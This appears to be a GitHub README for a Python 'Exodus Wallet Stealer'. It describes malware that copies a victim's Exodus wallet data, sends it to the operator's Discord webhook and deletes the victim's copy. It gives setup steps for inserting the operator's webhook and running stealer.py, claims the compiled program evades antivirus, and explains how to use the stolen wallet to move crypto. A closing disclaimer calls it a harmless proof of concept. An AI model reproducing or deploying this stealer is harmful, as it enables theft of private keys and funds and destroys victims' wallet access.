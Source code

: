 # Exodus Wallet Stealer

Working Exodus Wallet Stealer to steal Exodus wallets, private keys, public keys and crypto in general, the stealer downloads a backup of the exodus appdata and then sends it to you via a discord webhook, once you recieve the webhook message the files are deleted so the wallet can no longer be accessed by the user, you can then download the files and drag and drop them into your appdata and reload your exodus.

After doing this you will have full access to all there stuff including private keys, you could then send and recieve crypto through that account.

The program once compiled properly is not detected by Anti-Virus at all and this makes it very dangerous malware.

I have created an interesting post about this Malware on my website were we go over how to install and prevent it.
https://www.katsu.bio/posts/oLWGiZkBqjC6BpZz

## Video
https://user-images.githubusercontent.com/122122838/228079770-cb0463dc-4afe-4e29-89d5-148389b54730.mp4

## Setup
Download the project files then follow the instructions below.

Open `stealer.py` and change this line:
```bash
Discord_Webhook_Client.send_file("WEBHOOK")
```
Remove **WEBHOOK** and add your Discord webhook URL.
    
## Run the program
You can run the stealer by doing the following command:
```bash
python stealer.py
OR 
python3 stealer.py
```

I recommend that you compile this if you wanted to actually use it and this is what cybercrimals would do however I am not gonna show how you can do this as this project is just a proof of concept and supposed to help fight against malware not make it spread more.

## NOTE:
This malware is supposed to explain and show how the malware would operate in a manor that allows the user to run it themselves without causing danage, I do not condone spreading or compiling with the intention to spread this malware and will not and have not shown how to compile it properly and have made it so it is not a complete version of malware. 
